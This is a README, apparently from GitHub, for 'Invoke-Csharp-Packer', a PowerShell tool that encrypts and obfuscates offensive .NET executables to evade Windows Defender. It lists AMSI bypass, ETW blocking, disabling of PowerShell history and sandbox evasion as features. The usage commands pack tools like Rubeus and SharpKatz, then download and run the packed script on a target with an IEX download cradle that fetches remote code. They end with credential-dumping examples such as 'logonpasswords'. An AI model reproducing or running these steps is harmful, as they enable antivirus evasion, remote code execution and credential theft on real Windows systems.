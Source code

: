 ### Invoke-Csharp-Packer v2.0
--------------------------------------
'Invoke-Csharp-Packer' allows to pack and encrypt offensive (C#) .NET executable files in order to bypass AV solutions such as Windows Defender.
It generates an obfuscated and encrypted PowerShell script that contains the (C#) .NET executable file.

#### FEATURES
  - AES encryption and GZip/Deflate compression (based on 'Xencrypt')
  - AMSI bypass
  - Blocking Event Tracing for Windows (ETW)
  - Disabling PowerShell history logging
  - Basic sandbox evasion techniques (optional)
    - stop/exit if the PowerShell session is being debugged (detection based on "Test-Path Variable:PSDebugContext")
    - wait for 60 seconds before execution
  
#### USAGE
  - Step 1. Generate an obfuscated & encrypted PowerShell script that contains your (C#) .NET executable file (e.g. Rubeus.exe, Sharpkatz.exe) stored locally or on a remote web server.

    _Examples with a (C#) .NET executable file stored locally_  
```
PS C:\> Import-Module ./Invoke-Csharp-Packer.ps1
PS C:\> Invoke-Csharp-Packer -FilePath C:\path\Csharp-binary.exe -OutFile C:\path\Packed-Csharp-binary.ps1
--- or ---
PS C:\> Invoke-Csharp-Packer -FilePath C:\path\Csharp-binary.exe -OutFile C:\path\Packed-Csharp-binary.ps1 -Sandbox
```  

    _Examples with a (C#) .NET executable file stored on a remote web server_  
```
PS C:\> Import-Module ./Invoke-Csharp-Packer.ps1
PS C:\> Invoke-Csharp-Packer -FileUrl https://URL/Csharp-binary.exe -OutFile C:\path\Packed-Csharp-binary.ps1 
--- or ---
PS C:\> Invoke-Csharp-Packer -FileUrl https://URL/Csharp-binary.exe -OutFile C:\path\Packed-Csharp-binary.ps1 -Sandbox
```
  - Step 2. Download & execute the obfuscated & encrypted PowerShell script (that contains your (C#) .NET executable file) on a target Windows computer
```
PS C:\> IEX (New-Object Net.WebClient).DownloadString('https://URL/Packed-Csharp-binary.ps1'); 
PS C:\> Invoke-Packed-NET-Executable argument1 argument2 argument3 ...
--- or ---
PS C:\> WGET -URI https://URL/Packed-Csharp-binary.ps1 -OutFile C:\temp\Packed-Csharp-binary.ps1
PS C:\> Import-Module C:\temp\Packed-Csharp-binary.ps1
PS C:\> Invoke-Packed-NET-Executable argument1 argument2 argument3 ...
``` 
  Example with a packed version of Rubeus.exe: ```Invoke-Packed-NET-Executable logonsession /current```  
  Example with a packed version of Sharpkatz.exe: ```Invoke-Packed-NET-Executable --Command logonpasswords``` 


#### LICENSE
  - GNU General Public License v3.0
